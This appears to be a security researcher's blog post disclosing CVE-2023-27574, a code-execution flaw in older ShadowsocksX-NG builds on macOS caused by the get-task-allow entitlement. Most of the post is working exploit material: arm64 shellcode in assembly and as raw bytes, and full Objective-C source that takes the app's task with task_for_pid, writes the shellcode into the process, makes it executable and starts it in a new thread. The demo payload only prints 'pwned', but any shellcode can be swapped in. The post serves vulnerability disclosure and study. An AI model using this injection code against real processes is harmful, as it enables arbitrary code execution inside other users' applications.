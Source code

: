 ```yaml
---
title: CVE-2023-27574 - Shadowsocks-NG code execution
description: Exploiting get-task-allow for code execution
date: 2023-03-05T13:45:06.348045+01:00
toc: true
tags:
    - cve
    - vuln
    - reverse-engineering
refs:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27574
    - https://github.com/shadowsocks/ShadowsocksX-NG/pull/1456
    - https://shadowsocks.org
draft: false
---
```


# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```


![Running exploit](../images/shadow_run.png)
